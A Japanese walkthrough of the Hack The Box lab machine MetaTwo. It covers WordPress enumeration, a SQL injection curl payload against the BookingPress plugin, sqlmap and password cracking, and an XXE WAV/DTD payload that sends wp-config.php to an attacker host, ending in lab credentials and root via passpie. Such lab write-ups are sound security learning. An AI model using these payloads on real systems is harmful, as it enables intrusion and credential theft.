


## MetaTwo
IP: 10.10.11.186  
Port: 21/tcp, 22/tcp, 80/tcp  
Domain: metapress.htb  

nmapでスキャンを行う。  


21番ポートでftpが動いているので、anonymousで接続ができるか試してみる。  


できなかった。  

80番ポートのHTTPにブラウザで接続してみる。  


`/etc/hosts`にドメイン名とIPアドレスを設定し、再接続を行う。  


この見た目...、==Word Press==が動いている！  
ページの見た目でWord Pressで作成されたものなのか否かが、直感でわかる時がある。  
同じ人いないかな。  
  
word pressが動いているので、`wpscan`でひとまずuserとpluginを列挙したり、versionを確認する。  


user: `admin`、`manager`が見つかった。  
plugin: なし
version: 5.6.2  

home画面から色んなボタンぽちぽち押していると、`http://metapress.htb/events/`のページが見つかる。  


設定していくと、ブックマークを登録できたような画面が表示される。  


`http://metapress.htb/events/`でソースコードを表示してみると、`bookingpress`というpluginが使われているのを確認できる。  


`bookingpress`のversion 1.0.10とわかるので、既知の脆弱性が存在しないか探してみると、  
SQLiの欠陥があるらしい。  
参考(https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)  


以下のようなリクエストで行う。  
```
curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```  
`total_service`にSQL命令を入れているので、ここに欠陥があるのがわかる。  

payloadに必要なparameterに`_wpnonce`値が必要になるのでソースコードから探し出す。  


`sqlmap`を使用してSQLiを行い、データベースの抽出をする。  


`blog`データベースの`wp_users`テーブルにパスワードがハッシュ化されて保存されている。  


`John The Ripper`を使用して、元のパスワードを探す。  


パスワードを使い回しているサービスを探していき、Word Pressにmanagerユーザーでログインできる。  
Word Pressにログインできた時に、reverse shellを獲得する手法の一つにMediaのアップロード機能を使用して、  
phpファイルをアップロードして行う手法があるができなかった。  


何か方法はないか探していくと、  
Word Pressのversion5.6 or 6.7でPHP version 8.x.xにXXE(XML外部実体攻撃)の欠陥があるらしい。  
参考(https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)  

以下のような感じでアップロードするためのファイルを作成する。  
```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://ip:port/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

そして、自分の環境にhttp接続を行わせ、`evil.dtd`をダウンロードさせるためのファイルを用意する。  
ここで、XXEでファイル漏洩を行い`wp-config.php`をbase64でencodeし、自分にリクエストとして送らせる。  
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://ip:port/?p=%file;'>" >
```


base64の魔法を解く。  


ftpの接続情報を取得できる。  
```
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
```

ftpに以上の認証情報を使用し、ログインを行う。  
`mailer`ディレクトリにあるファイルに認証が見つかる。  


この認証情報はSSH接続で利用できる。  
user flagをゲットし、権限昇格を狙う。  
`sudo -l`や`find / -perm -u=s -type f 2>/dev/null`をすぐに実行し、  
いつもの手法なのかどうか確認するが違った。  
原点に戻り、ホームディレクトリで`ls -la`を実行。  
`.passpie`ディレクトリが見つかる。  


`passpie`というのは、パスワードをCLIで管理できるものである。  
参考(https://github.com/marcwebbie/passpie)

一通り調べ、`.passpie`ディレクトリに`.keys`ファイルがありGnuPGの秘密鍵が見つかる。  
`John The Ripper`の`gpg2john`を使って、秘密鍵からパスワードを探す。  


`passpie`コマンドで見つけたパスワードを使用する。  


root flagをゲットし終了

